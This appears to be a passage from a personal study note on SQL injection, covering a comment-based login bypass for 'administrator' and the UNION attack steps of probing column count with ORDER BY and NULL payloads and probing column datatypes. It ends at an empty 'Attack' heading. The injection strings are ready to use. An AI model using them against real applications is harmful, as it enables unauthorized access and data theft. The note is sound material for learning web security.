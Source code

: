Now the **attack** could be
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

which will not check for passwords as it's commented out according to query and will retrieve true for the useraccount = administrator

<hr >

## Union Attacks
In cases where the results of an SQL query are returned within the application's responses, an attacker can leverage an SQL injection vulnerability to retrieve data from other tables within the database.

To do this attack first we need to understand a rule about union operation.

i.e. `In the union operation, all the number of datatype and columns must be same in both the tables on which UNION operation is being applied.`

So when we try to retrieve data of other tables via SQLi we follow the approach:

1. **Determining the number of columns required in an SQL Injection UNION attack**

	`Method 1:` ORDER BY
	
	- ' ORDER BY 1--
	- ' ORDER BY 2--
	- ' ORDER BY 3--
	
	Where 1,2,3 are the column alias as retrived normally. We'll keep increasing the number till we receive an `error` i.e. we ORDERED the querry w.r.t to column which doesn't exists. Let's say we receive error at 3 then this assures us that 2 columns are there in the retrieved result.
	
	`Method 2:` UNION SELECT
	
	- ' UNION SELECT NULL--
	- ' UNION SELECT NULL,NULL--
	- ' UNION SELECT NULL,NULL,NULL--

	If the number of NULLS doesn't match the number of columns, the database returns an `error`.

	**Note: **
	- Why using NULL? 
	Since NULL is convertible to every commonly used data type.
	- On Oracle, every SELECT query must use the FROM keyword. Use `' UNION SELECT NULL FROM DUAL--` . Where DUAL is a inbuilt table in Oracle.
	- In MySQL, the double dash sequence must be followed by a space. Aternatively we can us #.
	 
 2. **Determining the datatype of columns**
	 - ' UNION SELECT 'a',NULL,NULL,NULL--
	 - UNION SELECT NULL,'a',NULL,NULL--
	 - UNION SELECT NULL,NULL,'a',NULL--
	 - UNION SELECT NULL,NULL,NULL,'a'--
	 
	 Here 'a' determines the string datatype. If the datatype of a column is not compatible with string data, the injected query will cause an `error`.
	 
 3. **Attack**
	 